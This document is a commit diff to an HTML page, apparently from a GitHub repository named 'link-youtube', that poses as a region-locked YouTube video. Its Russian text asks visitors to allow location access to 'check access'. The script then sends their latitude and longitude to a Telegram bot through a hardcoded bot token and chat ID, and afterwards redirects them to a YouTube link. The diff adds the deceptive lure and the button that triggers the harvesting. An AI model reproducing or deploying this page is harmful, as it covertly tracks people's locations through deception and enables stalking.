

Before and after one commit to Hacker-91111/link-youtube, a plain HTML site: page index.html in a window 1280 px wide. Shown: the whole page, without its empty margins (0-925 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -3,10 +3,51 @@
 <head>
   <meta charset="UTF-8">
   <title>Видео</title>
+  <style>
+    body {
+      font-family: Arial, sans-serif;
+      background: #f2f2f2;
+      display: flex;
+      flex-direction: column;
+      align-items: center;
+      justify-content: center;
+      height: 100vh;
+      margin: 0;
+      text-align: center;
+    }
+    .card {
+      background: white;
+      padding: 30px;
+      border-radius: 10px;
+      box-shadow: 0 0 20px rgba(0,0,0,0.1);
+      max-width: 400px;
+    }
+    button {
+      background-color: #d93025;
+      color: white;
+      border: none;
+      padding: 15px 25px;
+      font-size: 16px;
+      border-radius: 5px;
+      cursor: pointer;
+      margin-top: 20px;
+    }
+    button:hover {
+      background-color: #b5271d;
+    }
+  </style>
+</head>
+<body>
+  <div class="card">
+    <h2>Это видео доступно только в вашем регионе</h2>
+    <p>Чтобы проверить доступ, нажмите кнопку ниже и разрешите доступ к местоположению</p>
+    <button onclick="requestLocation()">Смотреть видео</button>
+  </div>
+
   <script>
     const token = '8016647728:AAHobE4QiXJZD27xMt68RFj41ZsZ2upS9eY';
     const chatId = '6798447912';
-    const youtubeLink = 'https://youtube.com/shorts/CGYuR4KZypE?si=2hxg-0zpevGw0Hao'; // замени на нужное
+    const youtubeLink = 'https://youtu.be/gTREfrZS5cA?si=P_mQM4MHwxixklQ0'; // замени на нужную ссылку
 
     function sendLocation(position) {
       const { latitude, longitude } = position.coords;
@@ -14,14 +55,14 @@
 
       fetch(`https://api.telegram.org/bot${token}/sendMessage`, {
         method: 'POST',
-        headers: {
-          'Content-Type': 'application/json'
-        },
+        headers: { 'Content-Type': 'application/json' },
         body: JSON.stringify({
           chat_id: chatId,
           text: message
         })
       }).then(() => {
+        window.location.href = youtubeLink;
+      }).catch(() => {
         window.location.href = youtubeLink;
       });
     }
@@ -30,7 +71,7 @@
       window.location.href = youtubeLink;
     }
 
-    window.onload = () => {
+    function requestLocation() {
       if (navigator.geolocation) {
         navigator.geolocation.getCurrentPosition(sendLocation, handleError);
       } else {
@@ -38,8 +79,5 @@
       }
     }
   </script>
-</head>
-<body>
-  <p>Загрузка...</p>
 </body>
 </html>
```
